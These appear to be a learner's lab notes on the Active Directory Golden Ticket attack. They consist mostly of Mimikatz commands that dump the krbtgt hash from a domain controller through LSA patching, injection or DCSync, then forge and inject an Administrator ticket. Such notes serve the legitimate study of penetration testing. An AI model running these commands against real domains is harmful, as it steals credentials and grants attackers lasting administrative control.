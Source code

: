 
**So we need access to krbtgt account so that we can forge TGT ticket and send it to DC for Golden Ticket.**

```powershell
# Execute Mimikatz on DC to get krbtgt hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dcorp-dc

# On any machine
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /krbtgt:<ntlm_hash> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

<center><b>Command</b></center>
![[2022-02-10 18_56_09-09-DomainPersistence-Part1.mp4 - VLC media player.png]]

![[2022-02-10 18_58_12-09-DomainPersistence-Part1.mp4 - VLC media player.png]]


- To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain_name>\krbtgt"'
```
*Extract krbtgt hash from the DC using DCSync*

- Using DCDync option needs no code execution (no need to run Invoke-Mimikatz) on the target DC.


<center><h2>Golden Ticket from mimikatz</h2></center>
Check for the privileges 
`Privilege '20' OK`

Command used: *Get debug rights.*
```powershell
privilege::debug
```

Now we dump the krbtgt hash

```powershell
lsadump::lsa /inject /name:krbtgt 
```

![[mimikatz golden ticket.png]]
*Highlighted boxes thigs you need*

**Now Create a golden ticket**

Command:
```powershell
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500 
```

**Now you have sucessfully created golden ticket**

Command:
```powershell
# Gives you new command prompt
misc::cmd
```
